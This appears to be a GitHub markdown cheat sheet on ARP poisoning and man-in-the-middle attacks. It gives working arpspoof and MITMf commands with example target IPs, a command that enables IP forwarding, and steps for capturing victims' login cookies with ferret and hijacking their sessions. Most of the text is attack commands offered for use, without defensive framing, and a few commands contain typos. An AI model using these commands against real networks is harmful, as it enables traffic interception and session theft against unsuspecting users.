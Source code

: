 ### ARP POISONING
Send ARP response to the client (without he asks it) and say the hackers ip is the ip of the router.
So you tell the client you are the router by telling the client that the device with the routers ip has your MAC address,
so the client starts sending packets through you. Send ARP response to the router telling you are the client 
by telling the clients ip address has your MAC address. You are in the middle of the packets.

#### ARP SPOOF 
tell client you are the router
```
> arpspoof -i [interface] -t [Target IP] [AP ip]

Example:

> arspoof -i wlan0 -t 192.168.1.5 192.168.1.1
```

tell the router you are the client
```
> arpspoof -i [interface] -t [AP ip] [Target IP]

Example:

> arspoof -i wlan0 -t 192.168.1.1 192.168.1.5
```

Enable IP forward to allow packets to flow through our device without being dropped.
`> Echo 1 > /proc/sys/net/ipv4/ip_forward`

#### MITMF Man In The Middle Framework
```
> mitmf --arp --spoof --gateway [gateway ip] --targets [targets ips] -i eth0

Example:

> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0
```
Enable IP forward to allow packets to flow through our device without being dropped.

`> Echo 1 > /proc/sys/net/ipv4/ip_forward`

WHEN CLIENT USES COOKIES TO LOGIN

sniff the cookies instead of sniffing passwords (`apt-get install ferret-sidejack`)
BEING MAN IN THE MIDDEL IS NEEDED!!!!!
```
> mitmf --arp --spoof --gateway [gateway ip] --targets [targets ips] -i eth0

Example:

> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0
```
Capture the cookies
```
> ferret -i [interface]

Example:

ferret -i eth0
```
(is a UI, injects the captured cookies into own browser)
